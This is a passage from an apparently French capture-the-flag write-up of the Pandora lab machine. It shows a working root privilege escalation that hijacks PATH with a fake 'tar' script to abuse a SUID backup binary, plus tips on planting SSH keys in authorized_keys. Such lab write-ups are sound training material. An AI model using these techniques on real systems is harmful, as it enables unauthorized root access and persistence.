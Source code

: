 En utilisant **SSH**, le problème disparait et la commande **tar** s'execute bien en tant que **root**.  
Le binaire SUID est désormais exploitable :

```bash
matt@pandora:~$ /usr/bin/pandora_backup 
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
Backup successful!
Terminating program!
```

Voici un exemple d'exploitation simple. On crée un fichier "tar" contenant la commande /bin/bash, on lui donne les droits en execution et on place le dossier où il se trouve (home directory de matt) au debut dans la variable **$PATH**. Lorsqu'on execute **which** on observe bien que notre **tar** à remplacer la véritable commande. Il ne reste plus qu'a executer notre binaire SUID pandora_backup pour obtenir un shell en tant que root :

```bash
matt@pandora:~$ echo "/bin/bash" > tar
matt@pandora:~$ chmod +x tar
matt@pandora:~$ export PATH=/home/matt:$PATH
matt@pandora:~# which tar
/home/matt/tar
matt@pandora:~$ /usr/bin/pandora_backup 
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:~# whoami
root
root@pandora:~# cat /root/root.txt 
fd9c.....291d
```

## Tips
- **Toujours lancer un scan des ports UDP** : D'abord un petit scan, puis un gros si on ne trouve rien d'autre.
- Si le port SSH est ouvert : toujours essayer de générer une paire clés SSH, placé le .pub dans authorized_keys et effectuer une connexion. Sur cette boxe, il était un impossible de faire sudo -l. Un bug empêchant d'exploiter le binaire pandora_backup SUID. A travers la session SSH, le bug n'était plus présent. Donc dans le doute : toujours tenter une connexion SSH.

Pour savoir s'il est possble de se connecter en ssh, en utilisant une paire de clés il faut vérifier le fichier de configuration ssh coté serveur : `/etc/ssh/sshd_config`
Si :
- #PubkeyAuthentication yes --> Commenté, valeur par défaut "yes", donc c'est possible
- #AuthorizedKeysFile .ssh/authorized_keys .ssh/authorized_keys2 --> commenté, par défaut ".ssh/authorized_keys" donc c'est Okay
- AllowUsers daniel matt --> Seulement ces utilisateurs peuvent se connecter en ssh
- UsePAM yes --> le mot de passe classique fonctionne via PAM mais ça ne bloque pas les clés pour autant

